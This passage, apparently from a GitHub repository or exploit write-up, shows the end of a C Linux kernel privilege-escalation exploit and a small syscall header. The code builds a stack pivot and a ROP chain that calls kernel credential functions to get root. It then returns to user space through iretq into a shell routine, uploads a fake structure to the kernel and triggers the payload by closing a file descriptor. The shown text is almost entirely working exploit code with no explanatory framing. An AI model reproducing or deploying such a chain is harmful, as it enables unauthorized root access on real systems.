 ```c  
	((void**)fake)[4] = PIVOT; // close

	/* second-stage pivot */  
	((void**)(buffer + 1))[0x40 + 1] = POPRSP;  
	((void**)(buffer + 1))[0x40 + 2] = pool + 8 * x;

	/* ROP chain */

	/* get root */  
	((void**)fake)[x++] = POPRDI;  
	((void**)fake)[x++] = 0;

	((void**)fake)[x++] = PKC;

	((void**)fake)[x++] = POPRCX;  
	((void**)fake)[x++] = 0;  
	((void**)fake)[x++] = MOVRDI;

	((void**)fake)[x++] = CK;

	((void**)fake)[x++] = RET; // breakpoint here  
	((void**)fake)[x++] = IRET;  
	((void**)fake)[x++] = 0xDEADBEEF; // rdi  
	((void**)fake)[x++] = 0xCAFEBABE; // discarded

	/* iret: rip, cs, flags, stack, ss */  
	((void**)fake)[x++] = shell;  
	((void**)fake)[x++] = (void*)user_cs; // always 0x33  
	((void**)fake)[x++] = (void*)user_rflags; // 0x200 is good enough  
	((void**)fake)[x++] = (void*)fake; // reuse for stack  
	((void**)fake)[x++] = (void*)user_ss; // always 0x2b

	DEBUG("[+] Upload structure to kernel\n");  
	lseek(fdm, 0, SEEK_SET);  
	write(fdm, fake, 0x3FF);  
	write(fdm, buffer, sizeof(buffer));

	DEBUG("[+] Trigger payload\n");  
	close(fdp);

	exit(0);  
}  
```

### syscall.h

```c  
#define O_RDONLY 00  
#define O_RDWR 02  
#define SEEK_SET 0  
#define SEEK_CUR 1  
#define SEEK_END 2

int  open(char *path, int flags);  
long lseek(int fd, long offset, int whence);  
long read(int fd, char *buffer, unsigned long size);  
long write(int fd, char *buffer, unsigned long size);  
int  close(int fd);  
void exit(int status);

int  socket(int af, int sol, int proto);  
void pause(void);  
int  execve(const char *path, const char** args, const char **envs);  
```